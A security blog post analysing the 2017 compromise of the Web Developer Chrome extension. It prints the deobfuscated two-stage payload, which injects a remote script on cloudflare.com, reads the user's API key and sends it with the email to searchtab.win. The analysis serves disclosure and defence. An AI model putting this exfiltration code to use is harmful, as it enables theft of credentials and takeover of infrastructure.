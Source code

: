 ```yaml
---
title: "Chrome Extension Steals Cloudflare Api Tokens"
date: 2017-08-03T20:59:56-04:00
<!-- draft: true -->
---
```



Upon receiving news that the popular Chrome Extension, Web Developer, had been compromised, I
quickly began to wonder about the what and how.Several stroies exist about how the extension came
to be compromised and they touched a bit on what it did. This post is meant to expand upon, what I
believe to be, the more nefarious behavior of the extension. Since the extension calls out to an
attacker-controlled URL, the payload hosted at that URL could be changed to _anything_ at any time.

At the time of inspection, the code checks to see if the victim is on the Cloudflare domain. If it
is, it starts an XHR request to fetch the users' API token and ships it, along with the victim's
email address, to an attacker-controlled server.

## The Code
The extension contains code that, upon visiting any site, generates a dynamic URL that changes
daily. It uses an MD5 hash of the current date, using the d-m-yyyy format.

~~~text
// tomorrow's url
https://wd + md5(4-8-2017) + .win/ga.js
https://wdfefe6195a8b014a1cc7d9cf2449d1b50.win/ga.js
~~~

This payload is fetched on every page that a victim navigates to.  The payload is encoded and
minified. Expanding it reveals the following portion:

~~~javascript.prettyprint
if (top['location']['href']['indexOf']('cloudflare.com') > -1) {
  (function () {
    var _0xb2b9x1 = document['createElement']('script');
    _0xb2b9x1['type'] = 'text/javascript';
    _0xb2b9x1['src'] = '//searchtab.win/ga.js';
    var _0xb2b9x2 = document['getElementsByTagName']('script')[0];
    _0xb2b9x2['parentNode']['insertBefore'](_0xb2b9x1, _0xb2b9x2)
  })()
} else {...
~~~

The first-stage payload checks whether the victim is currently on cloudflare.com. If they are, it
creates a new script tag on the page and sets its source to `//searchtab.win/ga.js`. This downloads
stage 2 of the payload. If we look, we get the following script:

~~~javascript.prettyprint
var xmlhttp = new XMLHttpRequest();
xmlhttp.open('GET', 'https://www.cloudflare.com/api/v4/user/api_key', true);
xmlhttp.setRequestHeader("x-atok", window.bootstrap.atok);
xmlhttp.onreadystatechange = function() {
  if (xmlhttp.readyState == 4) {
    if(xmlhttp.status == 200) {
      var obj = JSON.parse(xmlhttp.responseText);
      var key = obj.result.api_key;
      console.log(key);
      (new Image).src = '//searchtab.win/ga.php?user=' +
        encodeURIComponent(window.bootstrap.data.user.email) + '&key=' + encodeURIComponent(key);
    }
  }
};
xmlhttp.send(null);
~~~

This second-stage payload `GET`s the logged in user's API key then sends it, and the user's email,
along to the `searchtab.win` domain.

This was clearly a targetted attack against professional Web Developers. Web Developers will
sometimes have access to production accounts on their employer's infrastructure. Though more common
in smaller companies that don't have dedicated DevOps and/or Security teams, it's not impossible
for bigger companies to fall prey.

With a valid API token, attackers could control a company's public-facing infrastructture and
create or modify sub/domains.

We've currently blocked all outgoing requests to `*.win/ga.js` and asked our developers to update
to version 0.5 of the Web Developer extension.

